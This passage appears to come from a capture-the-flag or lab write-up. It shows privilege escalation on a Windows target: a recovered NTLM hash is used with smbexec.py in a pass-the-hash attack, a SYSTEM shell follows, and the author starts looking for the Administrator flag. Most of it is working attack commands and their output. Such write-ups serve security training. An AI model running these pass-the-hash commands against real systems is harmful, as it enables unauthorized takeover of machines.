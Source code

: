The "Backup stuff" entry seems to match a NTLM hash. This could be a valid NTLM hash for one user.

## Privilege Escalation

The SMB Service (Port 445) is exposed on this server, so we can attempt to authenticate to the system using a password spray attack or a pass-the-hash attack.

`aad3b435b51404eeaad3b435b51404ee` means that LM is not being used (is the LM hash of empty string).

With this NTLM hash, I can try to login as Administrator on the target host :

It worked, I am connected as SYSTEM account :

```shell
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@$TARGET
```

```text
[!] Launching semi-interactive shell - Careful what you execute

C:\Windows\system32>whoami  
whoami
nt authority\system

C:\Windows\system32>
```

We get an administrative shell, this host is fully compromised.

### Administrator flag / proof

The flag should be located in Administrator profile folder :

```batch
dir c:\Users\Administrator\Desktop
```

```text
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of c:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
11/03/2017  10:03 PM               282 desktop.ini
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               3 File(s)          1,115 bytes
               2 Dir(s)   7,518,650,368 bytes free
```

There is no flag file, but show th file `hm.txt` :

```batch
type C:\Users\Administrator\Desktop\hm.txt
```
